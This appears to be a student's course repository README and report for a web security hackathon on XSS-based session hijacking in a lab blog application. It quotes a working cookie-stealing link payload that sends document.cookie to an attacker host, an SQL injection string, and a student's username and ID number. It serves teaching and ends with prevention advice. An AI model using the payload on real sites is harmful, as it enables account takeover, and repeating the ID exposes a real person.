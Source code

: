 # Web Application Programming and Hacking

## Instructor: Dr. Phu Phung

## Student

**Name**: Mahitha Kalaga

**Email**: [kalagam1@udayton.edu](kalagam1@udayton.edu)

![Mahitha's headshot](../images/mahi.jpeg)

## Repository Information

Repository's URL: [https://github.com/kalagam1/waph-kalagam1.git](https://github.com/kalagam1/waph-kalagam1.git)

This is a private repository for Mahitha Kalaga to store all the code from the course. The organization of this repository is as follows.

### Labs

[Hands-on exercises in Lectures](labs)

- [Lab 0](labs/lab0): Development Environment Setup
- [Lab 1](labs/lab1): Foundations of the Web
- [Lab 2](labs/lab2): Front-end Web Development
- [Lab 3](labs/lab3): Secure Web Application Development in PHP/MySQL
- [Lab 4](labs/lab4): A Secure Login System with Session Authentication

### Hackathons

- [Hackathon 1](hackathon1): Cross-site Scripting Attacks and Defenses
- [Hackathon 2](hackathon2): SQL Injection Attacks
- [Hackathon 3](hackathon3): Session Hijacking Attacks and Defenses

### Individual Projects

- [Individual Project 1](https://github.com/kalagam1/kalagam1.github.io): Front-end Web Development with a Professional Profile Website and API Integration on github.io cloud service

## Report

## The Hackathon's overview

In Hackathon 3, I explored Cross-Site Scripting (XSS) and session hijacking vulnerabilities to understand how attackers can gain unauthorized access without credentials. I began by injecting a malicious JavaScript payload into the blog application's comment section, which, when clicked by a logged-in user, silently transmitted their session cookie to a remote server I controlled. By retrieving the stolen cookie from the server logs, I was able to hijack the victim's session by manually injecting the session ID into my browser, gaining access without logging in. To test further vulnerabilities, I attempted SQL injection on various input fields post-hijack, but found the system to be resilient—likely due to parameterized queries. This exercise demonstrated the critical importance of input sanitization, secure cookie attributes, and strong session management in protecting web applications.

Hackathon's URL: [Hackathon3](https://github.com/kalagam1/waph-kalagam1/tree/main/hackathon3)

Demo's URL: [Demo]()

## Task 1: The Attack

### Step 1: Attacker

To initiate the attack, I accessed the blog application, which allows users to post comments without any form of input validation or sanitization. Recognizing this vulnerability, I crafted a cross-site scripting (XSS) payload intended to capture the session cookie of a logged-in user. The injected payload looked like this:
<a onclick=window.location='http://192.168.56.102/?cookie='+document.cookie">click here</a> 

![level 0](../images/h31.jpeg)

This script, when clicked by an authenticated user, would send their session cookie to the attacker’s server. The comment was submitted and publicly displayed on the blog.

### Step 2: Victim

Acting as the victim, I proceeded to log into the blog application using the UD credentials; kalagam1 and the corresponding 9-digit student ID (101831115). Upon successful authentication, I navigated to the comment section where the attacker’s malicious payload had been posted.

![level 0](../images/h32.jpeg)

![level 0](../images/h33.jpeg)

![level 0](../images/h31.jpeg)

### Step 3: Victim

Upon encountering the injected comment, I interacted with the hyperlink under the assumption that it was legitimate. This action triggered the malicious JavaScript embedded within the link, which immediately executed and sent the session cookie associated with the authenticated session to the attacker’s server.

![level 0](../images/h31.jpeg)

![level 0](../images/h34.jpeg)

### Step 4: Attacker

On the attacker’s end, I had configured a listener to capture incoming HTTP requests. Once the victim interacted with the malicious link, the browser issued a request containing the session cookie to the attacker’s server. I verified the success of this action by inspecting the server logs, which revealed the session identifier (PHPSESSID). With this information, I was now equipped to impersonate the victim. To see the cookie information the terminal runs the following command:
Cat /var/log/apache2/access.log

![level 0](../images/h35.jpeg)

### Step 5: Attacker

To hijack the victim’s session, I opened the blog application in a new incognito browser session and did not log in. Instead, I opened the browser’s developer tools and manually added the stolen PHPSESSID cookie under the Application tab. After refreshing the page, the application treated me as the logged-in user, granting access without requiring authentication credentials. This demonstrated a complete session hijack using only the stolen cookie.

![bonus](../images/h36.jpeg)

![bonus](../images/h37.jpeg)

### Bonus: 

Following the successful session hijacking, I explored the application to assess whether it was also vulnerable to SQL injection. I tested the login and other input fields with common SQL injection payloads such as ' OR '1'='1, but the application rejected these inputs or returned appropriate error messages. This behavior suggests that the backend is likely using parameterized queries or has implemented input validation, rendering SQL injection attempts ineffective in this case.

![bonus](../images/h3bonus1.jpeg)

![bonus](../images/h3bonus2.jpeg)

## Task 2: Understanding and Prevention

#### Why the Attack Worked

This attack was possible due to two primary vulnerabilities. First, the blog application lacked proper input sanitization, allowing the injection of executable JavaScript into the comment section. This made it susceptible to cross-site scripting (XSS). Second, the application stored session cookies without setting security flags such as HttpOnly and Secure, making them accessible via JavaScript. The attacker was able to steal this session data and reuse it to bypass authentication completely.

#### How This Can Be Prevented

As a developer, there are several things I’d do differently to prevent this. First, I’d make sure all user inputs—especially in comment sections—are properly sanitized and encoded before being displayed on the site. That would stop most XSS attacks. I’d also set the session cookies to have the HttpOnly, Secure, and SameSite flags so they can’t be accessed through scripts or passed around between sites. Finally, I’d implement proper session expiration and maybe even rotate the session ID on login/logout to reduce the window of attack. These are all practices we’ve been following in our WAPH projects. 
